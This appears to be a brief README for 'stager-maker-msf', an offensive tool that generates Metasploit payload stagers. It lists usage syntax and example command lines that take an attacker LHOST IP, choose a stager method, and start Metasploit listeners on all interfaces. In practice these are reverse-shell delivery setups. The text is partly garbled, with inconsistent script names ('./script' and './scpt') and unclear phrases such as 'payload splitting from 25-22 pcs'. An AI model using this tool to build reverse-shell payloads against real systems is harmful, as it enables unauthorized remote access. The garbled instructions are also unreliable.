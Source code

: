 # stager-maker-msf
`
(Staging of payload splitting from 25-22 pcs.)
`

# More options for standing

use -> ./script <LHOST> or <PAYLOAD> and optional {<STAGER> spec|fast} and/or {<START_MSF> yes and/or <SET_LHOST_MSF>}

example -> ./scpt 192.168.1.241 yes (start metasploit, set custom later) optional is "yes" if IP is specified!
example -> ./scpt 192.168.1.241 0.0.0.0 (start metasploit, set all listeners)
example -> ./scpt 192.168.1.241 fast yes 0.0.0.0 (create payload with fast method and start metasploit, set all listeners)
example -> ./scpt payload_shell fast yes 0.0.0.0 (same as above, pre-made payload instead of IP)
(default stager method: special, work time: 2.5-5s)
